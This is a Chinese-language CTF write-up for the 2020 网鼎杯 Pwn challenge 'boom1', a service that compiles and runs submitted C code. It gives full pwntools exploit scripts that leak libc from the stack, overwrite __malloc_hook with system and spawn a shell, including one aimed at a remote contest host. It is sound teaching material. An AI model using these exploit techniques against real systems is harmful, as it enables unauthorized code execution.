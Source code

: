```yaml
---
title: 网鼎杯 2020 Pwn boom1
date: 2020-05-10 00:00:00
categories:
- CTF/Pwn
tags:  
---
```


> 多亏mcfx指导，才能做出这题，感谢。64位程序，保护全开，可以执行我们发送的c代码，但可以执行的代码有些限制，不能执行system之类的函数，但可以任意写内存。最终通过利用栈上的数据，获得了libc的基址，完成了对__malloc_hook的劫持，进而getshell。

- 题目地址：nc 182.92.73.10 24573
- 题目附件：[boom1](https://xuanxuanblingbling.github.io/assets/attachment/boom1)

## 分析

程序保护全开，可以执行我们发送的c代码，但是函数只能调用固定的几个函数，而且只能调用一次。不过因为可以执行代码，而且支持指针，所以通过赋值语句就可以完成内存的修改，也就是说这题本身就有**任意读写内存的能力**，只需要泄露出关键的地址即可控制流劫持。通过调试发现在执行我们的函数时的栈上是保存着很多信息的，程序地址，堆，栈，libc相关信息都能在栈上找得到。所以只要能使用栈上的变量即可，想到两种方法获得栈地址：

1. 通过main函数的argv
2. 通过直接对我们可以控制的局部变量取地址

拿到栈地址后，对栈地址进行偏移调整，然后解引用，观察其值，找到libc相关的地址，与本地libc基址进行对比，进而得到偏移。然后通过赋值语句修改能控制流劫持的重要内存即可，这里修改malloc_hook为system，然后执行调用malloc传/bin/sh即可getshell。

## 调试

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
gdb_libc_base = int(os.popen("pmap "+str(io.pid)+"| grep libc | awk '{"+"{print $1}"+"}'").readlines()[0], 16)
payload= '''
int main(int argc,char ** argv){
    int a;
    printf("%llx,%llx\n",&a,argv);
}
'''
gdb.attach(io)
io.send(payload)
log.warn(hex(gdb_libc_base))
io.interactive()
```

不过根据调试的结果：

```bash
[*] Switching to interactive mode
I'm living...
7f56c2bb8fd8,7ffe2eacba40
```

就会发现：

1. argv获得的是真正的栈地址
2. &a获得是在堆上的逻辑栈

不过通过printf打印这两个栈上内容发现都有libc相关数据。

## 利用

写内存时注意类型转换才可以成功` * (int *)malloc_hook = system;`中`(int *)`必不可少

1. 远程通过argv利用
2. 本地通过&a利用

### 远程

> 远程的libc和本地的2.23相同，因为调试的时候去掉本地算出的偏移后后三位也是0，所以基本确定。

```python
from pwn import *
io = remote("182.92.73.10",24573)
payload= '''
int main(int argc,char ** argv){
    int libc,system,malloc_hook;
    libc = argv[24]-0x3ca000;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("/bin/sh");
}
'''
io.send(payload)
io.interactive()
```

### 本地

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
payload= '''
int main(){
    int libc,system,malloc_hook;
    libc = *(&system-2)-0x509fd8;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("cat /flag");
}
'''
io.send(payload)
io.interactive()
```
## C4编译器

> 在同学的提醒下知道，查找题目里的一些字符串，比如LEA ,IMM ,JMP ,JSR ,BZ  ,BNZ ,ENT ,ADJ ,LEV ,LI，直接在github搜索就知道，这些代码是C4编译器的

- [rswier/c4](https://github.com/rswier/c4)
- [DavidFeng/ci](https://github.com/DavidFeng/ci/)
- [有哪些关于c4 - C in four function 编译器的文章](https://www.zhihu.com/question/28249756)


## 总结

可以看到本题基本没有怎么分析二进制，却一样能做出来，所以做题不一定非要清楚漏洞在哪（这个二进制我也看不太懂，再次感谢mcfx指导）。另外个人觉得这题也无法归类到二进制漏洞中，就是一种情景，在这个情景下你能运行代码，进行内存写，不过运行的做了一些限制，不过你还是能绕过这些限制劫持控制流。**即这题本身就有读写任意内存的能力，不过你得想办法泄露一些地址信息，本题的泄露方法就是对栈的理解和应用**。我认为这道题可以类似理解为攻击oj，不过大部分oj应该都是调编译器，而这个题目自己就是个编译器。不过总之，就是一个能运行你代码的程序，你咋攻击他，挺神奇的一个题。

- [有什么卡OJ评测机的方法](https://www.zhihu.com/question/67138068)